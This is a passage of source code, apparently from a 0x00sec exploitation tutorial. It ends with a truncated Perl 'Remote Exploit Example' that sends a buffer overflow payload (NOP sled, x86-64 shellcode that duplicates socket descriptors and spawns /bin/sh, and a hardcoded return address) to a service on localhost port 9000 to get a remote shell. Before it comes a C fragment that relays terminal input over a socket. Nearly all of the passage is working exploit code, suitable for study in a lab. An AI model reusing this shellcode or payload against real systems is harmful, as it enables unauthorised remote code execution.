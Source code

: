 ```c
            memset(line, 0, sizeof(line));
            if (fgets(line, sizeof(line), stdin) != NULL) {
                if (send(sockfd, line, strlen(line), 0) < 0) {
                    perror("Send failed");
                    exit(EXIT_FAILURE);
                }
            }
        }

        if (!FD_ISSET(STDIN_FILENO, &testfds) && !FD_ISSET(sockfd, &testfds)) {
            if (flag) {
                printf("0x00pf]> ");
                flag = 0;
            }
        }
    }

    close(sockfd);
    return 0;
}
```

```perl
#!/usr/bin/perl
use IO::Select;
use IO::Socket::INET;
$|=1;

print "Remote Exploit Example";
print "by 0x00pf for 0x00sec :)\n\n";

# You may need to calculate these magic numbers for your system
$addr = "\x10\xdd\xff\xff\xff\x7f\x00\x00"; 
$off = 264;

# Generate the payload
$shellcode = "\x48\x31\xc0\x50\x50\x50\x5e\x5a\x50\x5f\xb0\x20\x0f\x05\x48\xff\xc8\x50\x5f\xb0\x21\x0f\x05\x48\xff\xc6\x48\x89\xf0\x3c\x02\x75\xf2\x52\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\x52\x5e\xb0\x3b\x0f\x05";

$nops = $off - length $shellcode;
$payload = "\x90" x $nops . $shellcode . $addr;

$plen = length $payload;
$slen = length $shellcode;
print "SLED $nops Shellcode: $slen Payload size: $plen\n";

# Connect
my $socket = new IO::Socket::INET (
    PeerHost => '127.0.0.1',
    PeerPort => '9000',
    Proto => 'tcp',
    );
# Set up select for asynchronous read from the server
$sel = IO::Select->new( $socket );
$sel->add(\*STDIN);

# Exploit!
$socket->send ($payload);
$socket->recv ($trash,1024);
$timeout = .1;

$flag = 1; # Just to show a prompt

```